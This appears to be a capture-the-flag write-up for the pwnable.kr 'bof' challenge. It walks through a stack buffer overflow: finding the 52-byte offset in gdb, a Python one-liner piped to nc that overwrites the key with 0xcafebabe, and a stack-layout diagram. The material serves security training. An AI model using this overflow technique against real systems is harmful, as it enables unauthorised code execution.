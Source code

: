 #### pwnable-kr
##### Toddler's Bottle | bof challenge
**Note** </br>
if you are using 64 bit machine you need to install these:</br>
```
 $ sudo apt-get install libc6-i386
 $ sudo apt-get install g++-multilib
```

with these you can run bof in your system :) </br>
there are 2 way to solve this problem.
**one** </br>
use `gdb bof` and put breakpoint on func </br>
use `run` command and enter 32 `A` in the input </br>
Ok, lets inspect the memory. We can use `xw` to display 32bit words (instead of 8, making it easier for us to see our patterns).
```
(gdb) x/20xhw $esp
```
you can see 5 word after `A`s there is `deadbeaf`; so we must enter 13 word `A` (it means 52 `A`) and after than  `cafebabe` on the input.</br>

so use this command to make if condition be `TRUE` and after than write `cat flag` to see the flag.
</br>
```
$ (python -c "print 'A'*52+'\xbe\xba\xfe\xca'") | nc pwnable.kr 9000
```
**TWO**
use `objdump`; on `func` you can see `$epb` has `0x2C` length.</br>
in this program, memory schema is like this:
```
|--------------------| High address
|       	         |
|--------------------|
|  int key (4 Bytes) | <- method parameters
|--------------------|
|   SEIP (4 Bytes)   | <- saved EIP;(also called program counter) 
|--------------------|
|   sebp (4 Bytes)   | <- saved ebp
|--------------------|
|                    |
|        ebp		 |
|    (0x2C Bytes)    |
|           	     |
|--------------------|
|              		 |
|--------------------| Low address
```
 so after you underestand that you can write code like [this](https://gist.github.com/Aseyed/db9c9685fef7f3b9399378f868aff3a3#file-pwnable-kr_bof-py) </br>
 run the code with python2 after that you can run `cat flag` to catch the flag

